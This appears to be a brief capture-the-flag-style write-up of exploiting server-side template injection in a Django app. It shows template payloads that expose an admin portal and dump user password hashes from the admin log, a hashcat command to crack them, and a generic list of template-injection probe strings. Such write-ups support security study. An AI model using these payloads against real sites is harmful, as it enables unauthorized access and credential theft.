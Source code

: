 ***

Detection:
```django
{% if 'ahsan' == 'ahsan' %} a {% endif %}
```
Debugging:
```django
{% debug %}
```
I got to know I have to pwn it

Disclosing Admin Portal:
```django
{% include 'admin/base.html' %} #/secret-admin-portal
```
Disclosing Credetials:
```django
{% load log %}{% get_admin_log 10 %}{% for e in log %}{{e.user.get_username}} : {{e.user.password}} {% endfor %%}
```
Dumped Django Hashed Credentials

Dencrypted Using Hashcat:
```bash
hascat -m 10000 hashed_passwords rockyou.txt
```
Django Admin Panel Pwn

---

**SSTI (Server Side Template Injection) Payload List**
```
{7*7}
*{7*7}
{{7*7}}
[[7*7]]
${7*7}
@(7*7)
<?=7*7?>
<%= 7*7 %>
${= 7*7}
{{= 7*7}}
${{7*7}}
#{7*7}
[=7*7]
```